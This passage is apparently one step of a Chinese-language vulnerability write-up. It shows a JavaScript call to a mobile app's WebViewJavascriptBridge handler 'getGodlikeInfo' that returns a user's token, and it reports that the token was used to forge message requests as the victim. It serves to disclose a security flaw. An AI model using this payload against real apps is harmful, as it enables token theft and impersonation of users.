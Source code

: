 11. 漏洞利用：获取token信息

        //获取token信息
        WebViewJavascriptBridge.callHandler("getGodlikeInfo", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0},function(e){console.log(e)})

    ![gettoken](/assets/images/gettoken.png)

    利用token信息伪造受害者发消息请求成功：

    ![gettoken2](/assets/images/gettoken2.png)
